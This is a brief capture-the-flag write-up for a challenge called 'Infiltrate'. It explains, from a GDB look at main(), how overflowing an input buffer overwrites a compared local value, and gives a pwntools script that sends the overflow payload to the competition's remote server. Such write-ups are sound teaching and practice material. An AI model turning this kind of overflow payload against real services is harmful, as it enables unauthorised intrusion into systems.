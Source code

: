 # Infiltrate

Using GDB, take a look at `main()` function. It sets **rbp-0x4** = *0xbaadc0de*, and then compares it to *0xdefec8ed*. The input starts from **rbp-0x30**. Clearly a buffer overflow vulnerability

```python
from pwn import *

p = remote('infiltrate.2024-bq.ctfcompetition.com',1337)
p.recvuntil(b'Username please: ')

offset = 0x30-4
payload = b'a'*offset + p32(0xdefec8ed)
p.sendline(payload)
p.interactive()
```
